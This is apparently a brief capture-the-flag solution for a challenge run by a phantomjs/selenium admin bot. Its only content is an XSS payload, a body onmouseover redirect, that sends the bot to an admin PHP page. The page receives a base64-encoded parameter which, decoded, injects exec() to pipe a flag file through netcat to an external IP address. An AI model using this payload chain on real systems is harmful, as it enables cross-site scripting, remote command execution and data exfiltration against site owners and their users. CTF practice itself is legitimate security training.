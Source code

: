 Bot Dependencies:
- phantomjs
- selenium python packages

Solution:
<body onmouseover=location="/admin/date.php?f=bCIpO2V4ZWMoJ2hkJy5jaHIoMzIpLidmbConLmNocigxMjQpLiduYycuY2hyKDMyKS4nMjAzLjM0LjExOC4yNTEnLmNocigzMikuJzEyMzQnKTsoIg">
